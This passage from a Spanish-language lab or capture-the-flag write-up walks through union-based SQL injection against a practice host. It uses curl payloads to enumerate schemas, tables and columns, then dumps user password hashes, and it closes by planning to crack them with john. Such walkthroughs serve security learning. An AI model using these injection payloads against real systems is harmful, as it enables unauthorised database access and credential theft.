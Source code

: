 La base de datos tiene una columna. En caso de introducir otro valor, devuelve un error

```null
curl -s -X GET 'http://10.10.10.96/users/1'"'"'%20order%20by%201--%20-'
null
❯ curl -s -X GET 'http://10.10.10.96/users/1'"'"'%20order%20by%202--%20-'
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request.  Either the server is overloaded or there is an error in the application.</p>
```

Aplico un ordenamiento basado en la única columna

```null
curl -s -X GET "http://10.10.10.96/users/'%20union%20select%201--%20-" | jq -r '.["username"]'
1
```

Listo todas las bases de datos de datos

```null
curl -s -X GET "http://10.10.10.96/users/'%20union%20select%20group_concat(schema_name)%20from%20information_schema.schemata--%20-" | jq -r '.["username"]'
information_schema,mysql,ozdb,performance_schema
```

Ahora para ```ozbd``` las tablas

```null
curl -s -X GET "http://10.10.10.96/users/'%20union%20select%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema='ozdb'--%20-" | jq -r '.["username"]'
tickets_gbw,users_gbw
```

Y las columnas

```null
curl -s -X GET "http://10.10.10.96/users/'%20union%20select%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema='ozdb'%20and%20table_name='users_gbw'--%20-" | jq -r '.["username"]'
id,username,password
```

Extraigo los usuarios y las contraseñas

```null
curl -s -X GET "http://10.10.10.96/users/'%20union%20select%20group_concat(username,%22:%22,password)%20from%20ozdb.users_gbw--%20-" | jq -r '.["username"]'
dorthi:$pbkdf2-sha256$5000$aA3h3LvXOseYk3IupVQKgQ$ogPU/XoFb.nzdCGDulkW3AeDZPbK580zeTxJnG0EJ78,tin.man:$pbkdf2-sha256$5000$GgNACCFkDOE8B4AwZgzBuA$IXewCMHWhf7ktju5Sw.W.ZWMyHYAJ5mpvWialENXofk,wizard.oz:$pbkdf2-sha256$5000$BCDkXKuVMgaAEMJ4z5mzdg$GNn4Ti/hUyMgoyI7GKGJWeqlZg28RIqSqspvKQq6LWY,coward.lyon:$pbkdf2-sha256$5000$bU2JsVYqpbT2PqcUQmjN.Q$hO7DfQLTL6Nq2MeKei39Jn0ddmqly3uBxO/tbBuw4DY,toto:$pbkdf2-sha256$5000$Zax17l1Lac25V6oVwnjPWQ$oTYQQVsuSz9kmFggpAWB0yrKsMdPjvfob9NfBq4Wtkg,admin:$pbkdf2-sha256$5000$d47xHsP4P6eUUgoh5BzjfA$jWgyYmxDK.slJYUTsv9V9xZ3WWwcl9EBOsz.bARwGBQ
```

Los intento crackear con john
